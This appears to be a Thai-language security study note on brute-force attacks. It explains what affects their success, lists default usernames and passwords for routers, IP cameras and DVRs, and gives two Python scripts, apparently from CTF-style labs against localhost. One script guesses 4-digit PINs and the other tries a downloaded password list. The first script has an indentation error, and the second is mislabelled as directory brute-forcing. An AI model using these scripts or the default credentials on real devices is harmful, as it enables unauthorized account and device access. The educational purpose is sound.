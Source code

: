 **Brute-Forcing** คือ การสุ่มความเป็นไปได้ เช่น การสุ่มรหัสผ่าน การสุ่มชื่อผู้ใช้รวมไปถึงการสุ่มเพื่อถอดรหัสต่าง(hash)<br>ปัจจัยที่มีผลต่อความสำเร็จในการโจมตีแบบนี้ ได้แก่
- **ความซับซ้อน** -> การที่รหัสผ่านมีความยาวที่มาก มีการผสมระหว่างตัวอักษรเล็กและใหญ่รวมถึงตัวเลขและอักขรพิเศษ ทำให้ยากต่อการที่จะโจมตีสำเร็จ
- **พลังการประมวลผล** -> ในปัจจุบัน ฮาร์ดแวร์ได้พัฒนาไปไกลมาก มีพลังการคำนวนที่มากขึ้น ส่งผลให้เพิ่มโอกาสที่จะโจมตีสำเร็จมากขึ้น
- **การรักษาความปลอดภัย** -> อาจมีการเก็บรหัสผ่านและชื่อผู้ใช้โดยการ hash และหลีกเลี่ยงที่จะเก็บแบบ plain text รวมไปถึงการทำให้การโจมตีแบบนี้ทำได้ช้าลง ส่งผลผลให้ต้องใช้เวลานานมากขึ้นในการโจมตี

![](picture/brute_how_work.png)
## Default Password 
[Top-Username-list.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)

| **Device/Manufacturer** | **Default Username** | **Default Password** | **Device Type**              |
| ----------------------- | -------------------- | -------------------- | ---------------------------- |
| Linksys Router          | admin                | admin                | Wireless Router              |
| D-Link Router           | admin                | admin                | Wireless Router              |
| Netgear Router          | admin                | password             | Wireless Router              |
| TP-Link Router          | admin                | admin                | Wireless Router              |
| Cisco Router            | cisco                | cisco                | Network Router               |
| Asus Router             | admin                | admin                | Wireless Router              |
| Belkin Router           | admin                | password             | Wireless Router              |
| Zyxel Router            | admin                | 1234                 | Wireless Router              |
| Samsung SmartCam        | admin                | 4321                 | IP Camera                    |
| Hikvision DVR           | admin                | 12345                | Digital Video Recorder (DVR) |
| Axis IP Camera          | root                 | pass                 | IP Camera                    |
| Ubiquiti UniFi AP       | ubnt                 | ubnt                 | Wireless Access Point        |
| Canon Printer           | admin                | admin                | Network Printer              |
| Honeywell Thermostat    | admin                | 1234                 | Smart Thermostat             |
| Panasonic DVR           | admin                | 12345                | Digital Video Recorder (DVR) |
## ตัวอย่าง script ที่ใช้ brute-force 
### pin brute-force
```python
import requests

ip = "127.0.0.1" # target IP
port = "8888" # target port

# try 4-digit PINs (0000 -> 9999)
for pin in range(10000):
	format_pin = f"{pin:04d}" # convert number e.g., pin=7 -> 0007
	print(f"Attempted PIN: {format_pin}")
	
	try:
		response = requests.get(f"http://{ip}:{port}/pin?pin={format_pin}")
		if response.ok:
			data = response.json()
				if "flag" in data:
					print(f"Found PIN: {format_pin}")
					print(f"Flag is: {data['flag']}")
					break
	except requests.exceptions.RequestException as e:
		print(f"Error: {e}")
```

### directory brute-force
```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```

sawaddekrub